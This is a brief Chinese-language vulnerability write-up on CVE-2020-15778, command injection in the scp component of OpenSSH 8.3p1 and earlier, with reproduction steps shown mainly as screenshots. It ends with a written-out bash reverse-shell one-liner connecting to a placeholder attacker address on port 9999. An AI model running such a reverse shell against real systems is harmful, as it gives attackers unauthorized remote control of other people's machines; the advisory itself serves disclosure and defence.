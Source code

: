 # OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

> [!NOTE]
>
> OpenSSH <= 8.3p1

## 漏洞复现

> [!NOTE]
>
> 可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![](http://wikioss.peiqi.tech/vuln/ssh-1.png)

执行命令 ping dnslog

![](http://wikioss.peiqi.tech/vuln/ssh-2.png)

反弹shell 更换命令即可

```
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

